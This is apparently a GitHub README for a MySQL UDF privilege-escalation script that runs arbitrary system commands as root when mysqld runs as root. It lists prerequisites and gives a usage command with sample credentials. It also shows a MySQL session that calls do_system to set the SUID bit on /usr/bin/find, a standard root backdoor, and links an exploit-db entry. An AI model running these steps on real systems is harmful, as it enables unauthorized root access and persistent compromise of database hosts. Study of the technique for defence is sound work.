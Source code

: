 # MySQL-UDF-PrivEsc
Using MySQL UDF to excute system commands
<br/>Prerequisites:
- mysqld must run as root (ps aux | grep mysqld)
- you must know the credentials of a MySQL user that has the permission to create stored function on the DBMS

# How does it works?
The script use UDF shared library on MySQL to execute commands, if mysqld run as root, of course the passed (-c)ommand will be executed as root. On a 64bit *nix box you can pass the compiled .so included in this repo.<br/>
How to use the script: <b>mysql_udf_exec_sys.sh -u mysql-user -p mysql-user-password -s shared-library-path -c command-to-be-executed</b> e.g.<br/>
<i>$ ./mysql_udf_exec_sys.sh -s lib_sys_udf.so -u root -p Secrete -c 'whoami > /tmp/whoM; chmod go+r /tmp/whoM;'</i><br>
  Once the script has been correctly executed you can direct access MySQL console and use the function do_system directly:<br>
<pre>mysql> use mysql;
mysql> select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
</pre>
  
<br><br><b>Please have a look to the following resources to get specific information about the exploit: </b>
  - https://www.exploit-db.com/exploits/1518
  - MySQL UDF: https://mariadb.com/kb/en/library/create-function-udf 
  - Shared library soname: https://en.wikipedia.org/wiki/Soname

